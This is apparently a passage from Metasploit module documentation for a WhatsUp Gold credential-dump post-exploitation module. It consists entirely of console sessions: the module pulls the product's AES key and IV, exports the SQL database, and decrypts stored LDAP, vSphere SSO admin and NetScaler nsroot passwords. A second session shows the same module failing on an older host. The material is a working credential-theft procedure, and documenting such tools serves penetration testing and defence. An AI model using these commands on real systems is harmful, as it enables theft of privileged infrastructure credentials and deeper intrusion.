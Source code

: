 ```
[+]     HEX: E9143AD84940A233
[+] WhatsUp Gold Composed AES256
[+]     KEY: 5B83224E3BFB363C841C6E27B6DF6B824ECD67BA06B4ED1918C0F738A60A8A75
[+]      IV: 5205DF3A92F346215308DD91DEAF69AE
[*] Init WhatsUp Gold SQL ...
[+] SolarWinds WhatsUp Gold SQL Database Connection Configuration:
[+]     Instance Name: WINNEBAGO\WHATSUP
[+]     Database Name: WhatsUp
[+]     Database User: (Windows Integrated)
[!] The database uses Windows authentication
[!] Session identity must have access to the SQL server instance to proceed
[*] Performing export of WhatsUp Gold SQL database to CSV file
[*] Export WhatsUp Gold DB ...
[+] 9 WUG rows exported, 4 unique nCredentialTypeIDs
[+] Encrypted WhatsUp Gold Database Dump: /root/.msf4/loot/20221218104026_default_192.168.101.125_whatsup_gold_enc_241327.txt
[*] Performing decryption of WhatsUp Gold SQL database
[+] 9 WUG rows loaded, 4 unique nCredentialTypeIDs
[*] Process WhatsUp Gold DB ...
[+] 9 WUG rows processed
[*] 9 rows recovered: 6 plaintext, 3 decrypted (0 blank)
[*] 9 rows written (0 blank rows withheld)
[+] 4 unique WUG nCredentialTypeID records recovered
[+] Recovered Credential: ldap
[+]     L: CESIUM137\ldap
[+]     P: WuddidUSay2Me?!
[+] Recovered Credential: vSphere SSO Admin
[+]     L: Administrator@vSphere.local
[+]     P: IAmOut2Lunch!
[+] Recovered Credential: nsroot
[+]     L: nsroot
[+]     P: quit2day!
[+] Decrypted WhatsUp Gold Database Dump: /root/.msf4/loot/20221218104026_default_192.168.101.125_whatsup_gold_dec_104164.txt
[*] Post module execution completed
msf post(windows/gather/credentials/whatsupgold_credential_dump) > 
```

Host running Windows Server 2003 R2 and WhatsUp Premium 11.0.1.11231 with MSDE;
the operator must supply the export data via the `CSV_FILE` advanced option:

```
msf exploit(multi/handler) > use post/windows/gather/credentials/whatsupgold_credential_dump
msf post(windows/gather/credentials/whatsupgold_credential_dump) > set session 1
session => 1
msf post(windows/gather/credentials/whatsupgold_credential_dump) > dump

[*] Hostname WINCEMEAT IPv4 192.168.101.144
[*] WhatsUp Gold Build 11.00.0004
[*] Init WhatsUp Gold crypto ...
[!] Could not extract dynamic encryption salt; type 3 ciphertext will not be decrypted
[*] Init WhatsUp Gold SQL ...
[+] WhatsUp Gold SQL Database Connection Configuration:
[+]     Instance Name: WINTESSENCE\WHATSUP
[+]     Database Name: WhatsUp
[+]     Database User: (Windows Integrated)
[!] The database uses Windows authentication
[!] Session identity must have access to the SQL server instance to proceed
[-] Post aborted due to failure: bad-config: Unable to identify sqlcmd SQL client on target host
[*] Post module execution completed
msf post(windows/gather/credentials/whatsupgold_credential_dump) > 
```

